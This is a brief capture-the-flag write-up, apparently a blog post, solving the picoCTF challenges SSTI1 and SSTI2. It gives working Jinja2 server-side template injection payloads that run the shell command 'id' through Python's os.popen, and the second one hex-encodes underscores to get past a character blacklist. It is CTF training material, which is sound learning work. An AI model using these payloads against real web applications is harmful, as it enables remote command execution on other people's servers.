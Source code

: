 ```yaml
---
layout: post
title:  "SSTI1 and 2"
date:   2025-04-16 15:50:00 -0400
categories: PICO-challenge web easy medium
tags: pico CTF writeup SSTI 
---
```


### CHALLENGE DESCRIPTION
![](assets/img/pico/ssti1/1.png)

### SOLUTION
#### SSTI1
As we know it has `SSTI` vulnerability, we can try this `${{7*'7'}}` and we get the respond `$7777777`.

Now input our payload:
```bash
{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```

#### SSTI2
Resource: [Jinja2](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/)
Cause of blacked list character, we need to change some special characters to hex
```bash
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```
